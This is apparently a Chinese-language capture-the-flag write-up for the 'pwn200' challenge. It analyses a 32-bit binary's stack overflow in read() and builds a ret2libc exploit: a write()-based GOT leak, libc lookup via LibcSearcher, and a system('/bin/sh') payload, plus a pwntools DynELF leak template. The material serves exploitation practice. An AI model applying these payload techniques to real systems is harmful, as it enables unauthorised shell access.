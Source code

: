 # pwn200

题目来源：https://adworld.xctf.org.cn/task/

这道题目代码很短，并且提示很少，只能猜测它想要我们做什么，先看一下这个程序的安全防护措施情况：

```
Arch:     i386-32-little                                           
RELRO:    Partial RELRO                                                
Stack:    No canary found                                                  
NX:       NX enabled                                                     
PIE:      No PIE (0x8048000)
```

这道题目并没有开启 canary，很可能存在缓冲区溢出的漏洞，然后看一下代码：

```c
int __cdecl main()
{
  int buf; // [esp+2Ch] [ebp-6Ch]
  int v2; // [esp+30h] [ebp-68h]
  int v3; // [esp+34h] [ebp-64h]
  int v4; // [esp+38h] [ebp-60h]
  int v5; // [esp+3Ch] [ebp-5Ch]
  int v6; // [esp+40h] [ebp-58h]
  int v7; // [esp+44h] [ebp-54h]

  buf = 1668048215;
  v2 = 543518063;
  v3 = 1478520692;
  v4 = 1179927364;
  v5 = 892416050;
  v6 = 663934;
  memset(&v7, 0, 0x4Cu);
  setbuf(stdout, (char *)&buf);
  write(1, &buf, strlen((const char *)&buf));
  sub_8048484();
  return 0;
}

ssize_t sub_8048484()
{
  char buf; // [esp+1Ch] [ebp-6Ch]

  setbuf(stdin, &buf);
  return read(0, &buf, 0x100u);
}
```

可以看到，在 sub_8048484 函数中的 read，显然是出现了缓冲区溢出的问题，那么一开始的我的想法是直接注入 shellcode，那是我没看到 NX 的保护，所以只能利用已有的代码。

这道题目迷惑的地方是没有给 libc，并且函数里也没有 system 调用和 /bin/sh 的关键字，但是这个文件用 file 命令查看后可知，它必然需要 libc 进行动态链接的。所以只有一种方法，就是通过 libc 里的 system 来构造栈帧。

这是一个 32 位的程序，函数调用规则决定了函数的参数都是压栈的。这里就使用 write 函数来泄露地址。首先我们想办法输出 write 的真实地址，这个也可以借助 write 函数输出，不过需要自己栈帧的内容：

```
'a' * 0x6C + 'a' * 0x4 + p32(write_plt) + p32(main_addr) + p32(1) + p32(write_got) + p32(0x04)
```

通过 write 函数，自然拿到了 got 表中 write 的地址，接着使用 LibcSearcher 泄露 libc 的基地址，从而计算出 system 和 bin/sh 的位置。

```python
libc = LibcSearcher("write", write_addr)                               
lib_base = write_addr - libc.dump("write")                            
system_addr = lib_base + libc.dump("system")                       
sh_addr = lib_base + libc.dump("str_bin_sh") 
```

从而构造新一轮的栈帧：

```
'a' * 0x6C + 'a' * 0x4 + p32(system_addr) + p32(0x1) + p32(sh_addr)
```

---

我看网上基本上所有的解答都是使用了 DynELF ，这个库是 pwntools 自带的库。

> **DynELF是pwntools中专门用来应对没有libc情况的漏洞利用模块，在提供一个目标程序任意地址内存泄漏函数的情况下，可以解析任意加载库的任意符号地址。**

一般的使用格式如下：

```python
p = process('./xxx')
def leak(address):
  #各种预处理
  payload = "xxxxxxxx" + address + "xxxxxxxx"  # 栈帧字符串
  p.send(payload)
  #各种处理
  data = p.recv(4)
  log.debug("%#x => %s" % (address, (data or '').encode('hex')))
  return data
d = DynELF(leak, elf=ELF("./xxx"))      # leak 函数和 elf 文件初始化一个 DynELF
systemAddress = d.lookup('system', 'libc')  #在libc文件中搜索system函数的地址
```

